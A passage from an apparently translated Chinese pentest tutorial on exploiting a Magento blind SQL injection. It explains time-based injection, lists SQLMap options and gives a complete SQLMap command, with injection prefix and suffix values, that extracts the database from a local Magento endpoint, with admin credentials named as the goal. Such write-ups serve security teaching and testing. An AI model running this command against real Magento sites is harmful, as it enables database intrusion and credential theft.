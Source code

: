 ### –盲 SQL 注入–基于时间

对于基于时间的盲目 SQL 注入，我们看到了服务器响应时间的差异。如果条件评估为 false，则调用 SLEEP(5 ),服务器将在响应前休眠 5 秒钟。否则，我们会立即得到响应。

![time-based blind SQL Injection server's response 1](img/b760d55e1115452b7551acdea0d09e0b.png) ![time-based blind SQL Injection server's response 2](img/ab42d09aeb80e541e26bb32790771db6.png)

## 5.使用 SQLMap 开发

原作者已经发布了针对该漏洞的[概念验证利用](https://github.com/ambionics/magento-exploits/blob/master/magento-sqli.py)；但是，它从数据库中提取的信息量非常有限。

通过使用 [SQLMap](https://pentest-tools.com/exploit-helpers/sqli-exploit-tool-sqlmap-online) ，一种更通用的利用方法是可能的。我们的目标是从数据库中提取任意信息，包括所有 Magento admin 用户的凭证。

SQLMap 是利用数据库漏洞的事实上的工具，因为它在支持的参数方面具有多功能性——比如指定 HTTP 选项、SQLi 技术、要提取的信息等等。既然我们知道漏洞是一个盲 SQLi，那么相关的技术就是内容(*被 SQLMap* 称为布尔盲)和基于时间的 SQL 注入。更简单的方法是基于内容的攻击，这是我们要关注的。

**注意:**要成功使用该方法，您必须使用参数`--ignore-code=400`或`--code=400`；否则，当 SQLMap 收到 HTTP 错误代码时，它会认为自己做错了什么。

### **第一步**

在验证我们技术的有效性之前，这里列出了我们将在本节中使用的一些常用参数:

```
-u          : the target url, with parameters included
--prefix    : prefix to add before the payload
--suffix    : suffix to add after the payload
-p          : parameter on which to inject the payload
--dbms      : database we assume to be running on target
--level     : range and number of payloads tried (1 to 5)
--risk      : risks of tests to perform (1 to 3)
--technique : technique to use; choose from one or more letters from "BEUSTQ"
--o         : some performance optimization
```

首先，我们将使用以下命令提取当前数据库(参数`--current-db`):

```
sqli@magento:~$ ./sqlmap.py -u 'http://local.magento/catalog/product_frontend_action/synchronize?type_id=recently_products&ids[0][added_at]=&ids[0][product_id][from]=?&ids[0][product_id][to]=' -p "ids[0][product_id][to]" --prefix=")))" --suffix=" -- -" --dbms=mysql --technique=B --ignore-code=400 --level=5 --risk=3 -o --current-db
```

成功利用 SQLMap 需要的特殊参数有:`--prefix`、`--suffix`和`ignore-code`。

结果:

### ![parameters required to successfully exploit with SQLMap](img/e51d7860d89f39efa4bde49b3b0fea86.png)获取更敏感的数据
